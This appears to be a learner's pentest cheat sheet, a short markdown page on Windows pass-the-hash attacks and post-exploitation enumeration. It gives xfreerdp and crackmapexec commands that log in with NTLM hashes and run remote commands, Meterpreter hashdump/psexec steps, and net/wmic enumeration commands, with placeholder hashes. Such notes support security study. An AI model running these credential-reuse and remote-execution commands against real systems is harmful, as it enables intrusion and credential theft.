 <img src="https://res.cloudinary.com/djc1umong/image/upload/v1688609440/Screenshot_from_2023-07-05_22-10-05_xavizf.png">

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1688609503/Screenshot_from_2023-07-05_22-11-21_xugvfi.webp">

```bash
xfreerdp /u:admin /d:foocorp /pth: NTLM_HASH /v:ip

# admin
hash NTLM: as0d123d8f39asd96f8a7d

# student
hash NTLM: a8sda896f80adg6a81092j

# meterpreter sesion
hashdump
# this has for pasexec #set SMBPass
# Getting sessios as admin
set target Command
# set target Native\ upload
exploit

sysinfo # Adminitrator
```

with crackmapexec

```bash
crackmapexec smb target -u Administrator -H "NTLM hash"
#123124 (Pwn3d!)

crackmapexec smb target -u Administrator -H "NTLM hash" -x "ipconfig"

```

### What to do after exploitation? Enumerating System

```bash

# getuid, getprivs, whoami /priv
# query user => actual sessions online
# net users => list users
# net user administrator # net user guest
# net localgroup => list groups
## checkout "Remote Desktop Users" => Can login via RDP
# net localgroup administrators => what user are admin !important

# search for security updates
wmic qfe get Caption, Description, HotFixID, InstalledOn

# We can verify if C:\\Windows\System32\eula.txt , provied information

```

